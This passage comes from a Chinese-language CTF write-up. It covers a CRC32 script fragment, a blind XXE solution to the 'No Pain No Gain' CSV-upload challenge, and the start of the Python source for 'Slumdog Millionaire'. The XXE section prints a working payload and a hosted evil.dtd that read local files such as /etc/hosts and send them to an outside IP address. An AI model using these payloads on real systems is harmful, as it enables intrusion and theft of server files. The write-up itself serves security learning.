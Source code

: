 ```
    if flag:
        flag += crc32_table[l32(key[i*4:i*4+4])][1:]
    else:
        flag = crc32_table[l32(key[i*4:i*4+4])]
print flag
```



**No Pain No Gain**

进去发现是一个上传页面，上传csv，进行转换，fuzz时候得到过这样的错误

[![](https://p0.ssl.qhimg.com/t01e14b88833a761a68.png)](https://p0.ssl.qhimg.com/t01e14b88833a761a68.png)

所以猜测是xxe,  

然后尝试一波之后没有想法,一直都报错,后来才知道,报错是没关系的,因为已经执行了,所以是一个 blind xxe   

然后直接用里面的payload改一该就好了,提交的文件内容如下:



```
&lt;!DOCTYPE ANY [
&lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts"&gt;
&lt;!ENTITY % xxe SYSTEM "http://104.160.43.154:8000/evil.dtd"&gt; %xxe;%send; ]&gt;
&lt;!-- Invitations --&gt;
id,name,email
```

然后vps上的evil.dtd内容如下：



```
&lt;!ENTITY % all
"&lt;!ENTITY % send SYSTEM 'http://104.160.43.154:8000/xss/?file=%file;'&gt;"
&gt;
%all;
```

成功获取到hosts的内容,那么开始寻找 flag ,最后是在 /home/flag/flag 里面,  

最后截图如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01eadf73b0b22457aa.png)

<br>

**Slumdog Millionaire**

从题目获取代码如下：



```
#!/usr/bin/python2.7
import random
import config
import utils
random.seed(utils.get_pid())
ngames = 0
def generate_combination():
    numbers = ""
    for _ in range(10):
        rand_num = random.randint(0, 99)
        if rand_num &lt; 10:
            numbers += "0"
        numbers += str(rand_num)
        if _ != 9:
            numbers += "-"
```